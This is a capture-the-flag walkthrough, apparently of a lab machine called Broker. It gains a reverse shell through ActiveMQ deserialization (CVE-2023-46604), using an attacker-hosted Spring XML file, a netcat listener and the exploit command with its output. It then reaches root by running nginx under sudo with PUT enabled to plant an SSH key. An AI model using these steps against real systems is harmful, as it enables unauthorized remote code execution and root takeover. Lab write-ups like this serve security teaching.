



Exploitation Summary
Exploitation process: The target machine was running Apache ActiveMQ version
5.15.15 on port 61616, which is vulnerable to CVE-2023-46604, an insecure deserialization
vulnerability allowing remote code execution. By exploiting this vulnerability, I was able to
gain initial access as the activemq user by sending a malicious OpenWire packet
that triggered the deserialization of a crafted Spring XML configuration file, which executed a
reverse shell payload.
After obtaining initial access, privilege escalation was achieved by exploiting sudo
permissions on the nginx binary. By configuring nginx to run as root and enabling
the PUT method to the filesystem root, I was able to upload an SSH public key to
/root/.ssh/authorized_keys, allowing direct SSH access as root.
Technologies/Exploits: Apache ActiveMQ RCE via insecure deserialization (CVE-2023-46604), Spring Framework ClassPathXmlApplicationContext exploitation, nginx privilege escalation via sudo misconfiguration.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services running on the target machine:

The scan reveals several interesting services. Most notably, port 80 is running an HTTP server, and port 61616 is running Apache ActiveMQ, which is a message broker service.
Web Enumeration - ActiveMQ Admin Panel
Navigating to port 80, I can access the ActiveMQ administration panel:

The admin panel displays valuable information about the running service. I can identify the exact version running: ActiveMQ 5.15.15. The interface also shows topics, subscribers, queues, and other messaging components, though none of the queue data appears to contain immediately useful information for exploitation.
Vulnerability Research - CVE-2023-46604
After identifying the specific version, I search for known vulnerabilities affecting ActiveMQ 5.15.15. I discover a critical vulnerability: CVE-2023-46604, which allows for remote code execution through insecure deserialization.
I locate a proof-of-concept exploit on GitHub: https://github.com/rootsecdev/CVE-2023-46604. This is a forked version that can be executed directly without needing to compile Go code, making it more convenient to use.
Understanding the Vulnerability
The vulnerability exploits an insecure deserialization flaw in ActiveMQ's OpenWire protocol. According to the detailed analysis at AttackerKB, the attack works as follows:
"An attacker who can connect to the OpenWire port 61616 can send an OpenWire packet with a data type of 31 (EXCEPTION_RESPONSE), to unmarshall an ExceptionResponse object instance. The attacker can supply both an arbitrary class name and an arbitrary string parameter to the BaseDataStreamMarshaller.createThrowable method during unmarshalling. This allows an arbitrary class to be instantiated with a single attacker-controlled string parameter."
The exploitation technique leverages the ClassPathXmlApplicationContext class, which is
part of the Spring Framework and available within ActiveMQ's classpath. This class allows loading
Spring configuration from an XML file. By hosting a malicious XML configuration on my attacking
machine and forcing ActiveMQ to load it, I can achieve remote code execution.
Initial Access - Exploiting CVE-2023-46604
The exploit provides an XML configuration template that will be loaded by the vulnerable service:

This XML configuration uses Spring's bean definition to execute arbitrary commands. The attack chain works as follows:
- Connect to port 61616 with a specially crafted exception packet
- Trigger the deserialization vulnerability
- Force ActiveMQ to load a Spring XML configuration from my HTTP server
- The XML configuration executes a reverse shell command back to my machine
First, I set up an HTTP server to host the malicious XML file:
python3 -m http.serverThen I set up a netcat listener to catch the reverse shell:
sudo nc -lvnp 443Now I execute the exploit:
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.6:8000/poc-linux.xmlThe exploit generates the following output:
_ _ _ __ __ ___ ____ ____ _____
/ \ ___| |_(_)_ _____| \/| |/ _ \ | _ \/ ___| ____|
/ _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | | | _|
/ ___ \ (__| |_| |\ V / __/ | | | |_| |_____| _ <| |___| |___
/_/ \_\___|\__|_| \_/ \___|_| |_|\__\_\ |_| \_\\____|_____|
[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.16.6:8000/poc-linux.xml
[*] Sending packet: 000000771f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010024687474703a2f2f31302e31302e31362e363a383030302f706f632d6c696e75782e786d6cMy Python HTTP server receives the request from the target:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.243 - - "GET /poc-linux.xml HTTP/1.1" 200 -
10.10.11.243 - - "GET /poc-linux.xml HTTP/1.1" 200 -And successfully receive the reverse shell connection:
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.243] 56104
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$I now have shell access as the activemq user and can retrieve the user flag.
Privilege Escalation - Nginx Sudo Misconfiguration
After gaining initial access, I check what sudo privileges the activemq user has:
sudo -lThe output reveals a significant misconfiguration:
User activemq may run the following commands on broker:
(ALL : ALL) NOPASSWD: /usr/sbin/nginxHaving sudo access to nginx without a password is a critical security issue. While nginx
is typically thought of as just a reverse proxy or web server, it can be configured in ways that
allow privilege escalation. After some research, I find a proof-of-concept exploit: https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406
Understanding the Escalation Technique
The exploit works by leveraging nginx's ability to act as a web server with full filesystem access when run as root. The attack strategy is:
- Create a custom nginx configuration that runs the web server as root (via sudo)
- Configure nginx to serve the entire filesystem root (
/) as the document root - Enable the HTTP PUT method, allowing file uploads
- Generate an SSH key pair
- Use the PUT method to upload the public key to
/root/.ssh/authorized_keys - Connect via SSH using the private key to gain root access
Here's what the exploit configuration looks like:

Executing the Privilege Escalation
I save the exploit script as privesc.sh and execute it on the target machine. The script
automatically:
- Generates an SSH key pair
- Creates a malicious nginx configuration
- Starts nginx with sudo
- Uses curl with the PUT method to upload the public key to
/root/.ssh/authorized_keys
After the script completes, it outputs the generated private key. I copy this key to my local machine
and save it as id_rsa. I set the correct permissions on the key file:
chmod 600 id_rsaFinally, I connect to the target as root using the generated SSH key:
ssh -i id_rsa root@10.10.11.243This grants me root access to the system, allowing me to retrieve the root flag and complete the machine.